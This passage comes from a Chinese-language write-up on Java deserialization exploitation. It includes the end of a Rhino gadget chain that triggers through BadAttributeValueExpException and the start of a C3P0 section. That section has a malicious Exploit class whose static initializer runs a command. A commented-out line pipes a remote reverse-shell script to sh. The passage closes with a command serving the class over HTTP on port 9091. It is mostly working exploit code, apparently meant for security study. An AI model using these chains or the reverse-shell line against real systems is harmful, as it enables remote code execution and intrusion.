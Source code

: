 ```java
        // 反射将 NativeJavaMethod 实例放到 GetterSlot 的 getter 里
        // ysoserial 调用了 setGetterOrSetter 方法，我这里直接反射写进去，道理都一样
        Class<?> getterSlotClass = Class.forName("org.mozilla.javascript.ScriptableObject$GetterSlot");
        Field    getterField     = getterSlotClass.getDeclaredField("getter");
        getterField.setAccessible(true);
        getterField.set(slotObject, nativeJavaMethod);

        // 生成 BadAttributeValueExpException 实例，用于反序列化触发 toString 方法
        BadAttributeValueExpException exception = new BadAttributeValueExpException("su18");
        Field                         valField  = exception.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(exception, nativeError);

        SerializeUtil.writeObjectToFile(exception, fileName);
        SerializeUtil.readFileObject(fileName);
    }

}
```

# C3P0

## 环境搭建

编译恶意类

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
    static {
        try{
            Runtime rt = Runtime.getRuntime();
            // reverse shell
            //String[] commands =  {"bash","-c","curl https://reverse-shell.sh/IP:PORT|sh"};
            String[] commands = {"calc"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        }catch (Exception e){
            // do nothing
        }
    }
}
```

挂载在9091端口

```cmd
python3 -m http.server 9091
```
